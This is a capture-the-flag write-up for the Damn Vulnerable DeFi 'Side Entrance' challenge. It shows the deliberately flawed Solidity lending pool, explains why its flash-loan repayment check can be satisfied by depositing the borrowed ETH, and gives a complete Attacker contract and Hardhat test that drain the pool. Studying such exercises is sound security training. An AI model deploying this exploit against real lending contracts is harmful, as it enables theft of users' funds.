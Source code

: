 # Side Entrance

```
// SPDX-License-Identifier: MIT

pragma solidity ^0.8.0;

import "solady/src/utils/SafeTransferLib.sol";

interface IFlashLoanEtherReceiver {
    function execute() external payable;
}

/**
 * @title SideEntranceLenderPool
 * @author Damn Vulnerable DeFi (https://damnvulnerabledefi.xyz)
 */
contract SideEntranceLenderPool {
    mapping(address => uint256) private balances;

    error RepayFailed();

    event Deposit(address indexed who, uint256 amount);
    event Withdraw(address indexed who, uint256 amount);

    function deposit() external payable {
        unchecked {
            balances[msg.sender] += msg.value;
        }
        emit Deposit(msg.sender, msg.value);
    }

    function withdraw() external {
        uint256 amount = balances[msg.sender];
        
        delete balances[msg.sender];
        emit Withdraw(msg.sender, amount);

        SafeTransferLib.safeTransferETH(msg.sender, amount);
    }

    function flashLoan(uint256 amount) external {
        uint256 balanceBefore = address(this).balance;

        IFlashLoanEtherReceiver(msg.sender).execute{value: amount}();

        if (address(this).balance < balanceBefore)
            revert RepayFailed();
    }
}
```

## Goal

Take all ETH from the SideEntranceLenderPool contract

## Exploit

In order to finish this CTF we will have to use another smart contract. We can name this contract Attacker.

The vulnerable part of the contract is in the following check:

```
if (address(this).balance < balanceBefore)
            revert RepayFailed();
```
The code is checking if the balance in the lending pool is the same as before taking the flash loan, but does not check who this balance belongs to.

In our Attacker contract we can call the flashLoan() function, and on the execute() callback function we can deposit the funds back to the SideEntranceLenderPool, only this time the funds will belong to the Attacker contract.

To exploit the contract we need to:

1. create Attacker contract, this contract will be inheriting IFlashLoanEtherReceiver interface and must have execute() function implemented, have instance from the SideEntranceLenderPool contract
2. create makeFlashLoan() external function, inside this funciton we will call flashLoan() from the pool contract
3. create execute() function, this will be callback function that must be implemented, since the Attacker contract is inheriting the IFlashLoanEtherReceiver interface
  <ul>
  <li>inside this function we will call the deposit() function from the pool contract</li>
  </ul>
4. create withdraw() external function, inside it we will:
  <ul>
  <li>call the withdraw() function from the pool contract</li>
  <li>transfer the funds to our account</li>
  </ul>

## Attacker contract code

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import { SideEntranceLenderPool } from "./SideEntranceLenderPool.sol";
import { IFlashLoanEtherReceiver } from "./SideEntranceLenderPool.sol";

contract Attacker is IFlashLoanEtherReceiver {
    event Log(string func, uint gas);

    SideEntranceLenderPool private immutable pool;

    constructor(SideEntranceLenderPool _pool) {
        pool = SideEntranceLenderPool(_pool);
    }

    function execute() external payable override {
        pool.deposit{value: msg.value}();
    }

    function withdraw() external {
        pool.withdraw();
        payable(msg.sender).transfer(address(this).balance);
    }

    function makeFlashLoan() external {
        pool.flashLoan(address(pool).balance);
    }

    fallback() external payable {
        // send / transfer (forwards 2300 gas to this fallback function)
        // call (forwards all of the gas)
        emit Log("fallback", gasleft());
    }

    receive() external payable {
        emit Log("receive", gasleft());
    }
}
```

## Solution code

```
const { ethers } = require('hardhat');
const { expect } = require('chai');
const { setBalance } = require('@nomicfoundation/hardhat-network-helpers');

describe('[Challenge] Side entrance', function () {
    let deployer, player;
    let pool;

    const ETHER_IN_POOL = 1000n * 10n ** 18n;
    const PLAYER_INITIAL_ETH_BALANCE = 1n * 10n ** 18n;

    before(async function () {
        /** SETUP SCENARIO - NO NEED TO CHANGE ANYTHING HERE */
        [deployer, player] = await ethers.getSigners();

        // Deploy pool and fund it
        pool = await (await ethers.getContractFactory('SideEntranceLenderPool', deployer)).deploy();
        await pool.deposit({ value: ETHER_IN_POOL });
        expect(await ethers.provider.getBalance(pool.address)).to.equal(ETHER_IN_POOL);

        // Player starts with limited ETH in balance
        await setBalance(player.address, PLAYER_INITIAL_ETH_BALANCE);
        expect(await ethers.provider.getBalance(player.address)).to.eq(PLAYER_INITIAL_ETH_BALANCE);

    });

    it('Execution', async function () {
        /** CODE YOUR SOLUTION HERE */
        attacker = await (await ethers.getContractFactory('Attacker', player)).deploy(pool.address);

        await attacker.connect(player).makeFlashLoan();

        await attacker.connect(player).withdraw();
    });

    after(async function () {
        /** SUCCESS CONDITIONS - NO NEED TO CHANGE ANYTHING HERE */

        // Player took all ETH from the pool
        expect(await ethers.provider.getBalance(pool.address)).to.be.equal(0);
        expect(await ethers.provider.getBalance(player.address)).to.be.gt(ETHER_IN_POOL);
    });
});
```
